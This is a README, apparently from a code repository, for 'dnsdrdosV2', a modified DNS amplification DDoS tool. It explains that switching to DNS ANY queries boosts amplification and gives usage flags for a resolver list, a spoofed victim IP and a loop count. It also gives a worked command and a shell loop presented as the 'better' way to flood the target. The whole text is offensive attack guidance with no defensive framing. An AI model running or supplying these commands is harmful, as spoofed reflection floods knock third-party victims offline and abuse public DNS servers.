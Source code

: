 # DNS amplification DDOS attack
This is an edited version of the original script of noptrix of nullsecurity.net.
Now the script will send DNS ANY query instead of DNS A query.

DNS ANY query request more data and because of that increase the amplification of the attack

usage:

  dnsdrdosV2 -f <file> [options] | [misc]
    
target:

  -f <file>       - list of dns servers (only one ip-address per line!)
  -s <addr>       - ip-address to spoof (default: 127.0.0.1)
  -d <domain>     - which domain should be requested? (default: "google.com.")
  -l <num>        - how many loops through list? (default: 10000)

misc:

  -V              - show version
  -H              - show help and usage

example:

  ./dnsdrdosV2 -f nameserver.lst -s 192.168.2.211 -d google.com. -l 10000
  
  or better:
  
  $ for i in `seq 1 1000`; do ./dnsdrdosV2 -f nameserver.lst -s 192.168.2.211 -d $i -l 10000; done

  This is better, because we ask dynamically for any domain names.
  Even if the domainname is not given, 'we' still would recieve DNS answers.
